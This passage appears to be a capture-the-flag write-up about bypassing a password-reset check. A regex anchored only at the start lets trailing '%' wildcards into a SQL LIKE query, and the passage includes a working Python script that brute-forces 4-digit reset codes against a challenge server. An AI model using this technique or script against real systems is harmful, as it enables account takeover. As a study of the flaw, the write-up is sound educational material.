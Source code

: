 The final query is something like

```sql
SELECT * FROM users WHERE email LIKE "email" AND code LIKE "code"
```

which means that if we can insert the `%` wildcard at the start or end of either `email` or `code`, there's a good chance we can bypass the check in reasonable time.

Unfortunately, `code` is checked using `code.isdigit()`. Let's see if we can get past `is_valid_email(email)` instead.

```python
def is_valid_email(email: str) -> bool:
    email_pattern = re.compile(r"[0-9A-Za-z]+@[0-9A-Za-z]+\.[a-z]+")
    return email_pattern.match(email) is not None
```

The regular expression does not allow for special characters like `%`. However, [re.match](https://docs.python.org/3/library/re.html) only matches at the _beginning_ of the string, so this still allows for wildcards at the _end_ of the email.

> If zero or more characters at the beginning of _string_ match the regular expression _pattern_, return a corresponding match object. Return `None` if the string does not match the pattern; note that this is different from a zero-length match.&#x20;

There are two possibilities here - the first one is to create many accounts sharing the same prefix in their emails, increasing the chance that any code would be valid for `some@email.prefix%`. Because the registration form is reCAPTCHA-protected, this is not possible.

The approach we take instead relies on the ability to add any number of `%` characters at the end of the email. Because `%` matches 0 or more characters, the query will yield the same result no matter how many `%` characters are added.

```python
import grequests
import sys

EMAIL = "socengexp@socengexp.socengexp"
PASSWORD = "socengexp12345!"

for i in range(0, 10000, 100):
    
    print(f"Trying {i}")

    results = grequests.map(grequests.post("http://34.141.16.87:25000/reset_password", data={
        "email": EMAIL + "%" * (i + j),
        "code": str(i + j).zfill(4),
        "password": PASSWORD
    }) for j in range(100))

    for r in results:
        if "Invalid email or code" not in r.text:
            print(r.text)
            sys.exit(0)
```
